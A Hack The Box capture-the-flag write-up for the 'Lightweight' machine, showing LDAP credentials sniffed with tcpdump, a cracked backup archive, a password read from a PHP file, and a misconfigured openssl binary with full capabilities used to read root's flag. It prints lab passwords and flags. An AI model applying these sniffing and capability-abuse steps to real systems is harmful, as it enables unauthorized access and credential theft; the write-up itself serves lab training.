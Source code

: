 ```yaml
---
title: 'Hack The Box - Writeup'
subtitle: 'Lightweight'
author: 'Patrick Hener'
date: \today{}
documentclass: scrartcl
pandoc-latex-color:
  - classes: [command]
    color: blue
---
```

<!-- Latex foo -->
\renewcommand*\contentsname{Table of Content}
\pagebreak
\tableofcontents
\pagebreak
<!-- Latex foo ends -->

# Recon

## nmap

| Port | Service |
| --- | --- |
| 22/tcp | ssh |
| 80/tcp | Apache |
| 389/tcp | ldap |

# Initial Foothold - Get user.txt

The Page on port 80 tells you to ssh into the box using the attacker ip as user and password. That is working just fine.

```sh
[10.10.14.2@lightweight ~]$ whoami
10.10.14.2
[10.10.14.2@lightweight ~]$ hostname
lightweight.htb
[10.10.14.2@lightweight ~]$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:bf:4b:a1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.119/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
[10.10.14.2@lightweight ~]$ 
```

If you listen on the `localhost` with tcpdump and curl to the status page under http://10.10.10.119/status.php you will see the following:

```sh
[10.10.14.2@lightweight ~]$ tcpdump -nnXSs 0 -i lo 
14:58:34.910780 IP 10.10.10.119.54162 > 10.10.10.119.389: Flags [P.], seq 1274729989:1274730080, ack 2245274875, win 683, options [nop,nop,TS val 4499786 ecr 4499786], length 91
	0x0000:  4500 008f 7f50 4000 4006 9217 0a0a 0a77  E....P@.@......w
	0x0010:  0a0a 0a77 d392 0185 4bfa d605 85d4 2cfb  ...w....K.....,.
	0x0020:  8018 02ab 2983 0000 0101 080a 0044 a94a  ....)........D.J
	0x0030:  0044 a94a 3059 0201 0160 5402 0103 042d  .D.J0Y...`T....-
	0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
	0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
	0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
	0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
	0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
```

Looks like we discovered a ldap authentication here. Use what looks like a hash as a password will give you ldapuser2.

```sh
[10.10.14.2@lightweight ~]$ su ldapuser2
Password: 
[ldapuser2@lightweight 10.10.14.2]$

[ldapuser2@lightweight ~]$ cat user.txt 
8a866d3bb7e13a57aaeb110297f48026
[ldapuser2@lightweight ~]$ 
```

# Priv Esc - Get root.txt

Next we transfer backup.7z to our attacker system and crack the hash of it.
The password is `delete`.
Then from within status.php we can read the password of `ldapuser1`

```sh
<?php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
//$ldapconfig['usersdn'] = 'cn=users';
```

Now we are `ldapuser1`

```sh
[10.10.14.2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight 10.10.14.2]$ cd
[ldapuser1@lightweight ~]$ ls -la
total 1496
drwx------. 4 ldapuser1 ldapuser1    181 Jun 15 21:03 .
drwxr-xr-x. 7 root      root          93 Dec 10 14:02 ..
-rw-------. 1 ldapuser1 ldapuser1      0 Jun 21 19:59 .bash_history
-rw-r--r--. 1 ldapuser1 ldapuser1     18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1    193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1    246 Jun 15 21:03 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11 04:43 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15 19:55 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11 04:43 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15 19:47 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13 19:44 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13 18:47 tcpdump
[ldapuser1@lightweight ~] 
```

The `openssl` binary in the user folder has other capabilities than the included one:

```sh
[ldapuser1@lightweight ~]$ getcap ./openssl 
./openssl =ep
[ldapuser1@lightweight ~]$ getcap /usr/bin/openssl 
[ldapuser1@lightweight ~]$ 
```

As the capabilities are obviously wrong cause no explicit were given you can misuse the openssl binary in the userfolder to read protected files.

```sh
[ldapuser1@lightweight ~]$ ./openssl enc -base64 -in /root/root.txt -out ./flag.b64
[ldapuser1@lightweight ~]$ cat flag.b64 
ZjFkNGUzMDljNWE2YjNmZmZmZjc0YThmNGIyMTM1ZmEK
[ldapuser1@lightweight ~]$ cat flag.b64 | base64 -d
f1d4e309c5a6b3fffff74a8f4b2135fa
[ldapuser1@lightweight ~]$ 
```

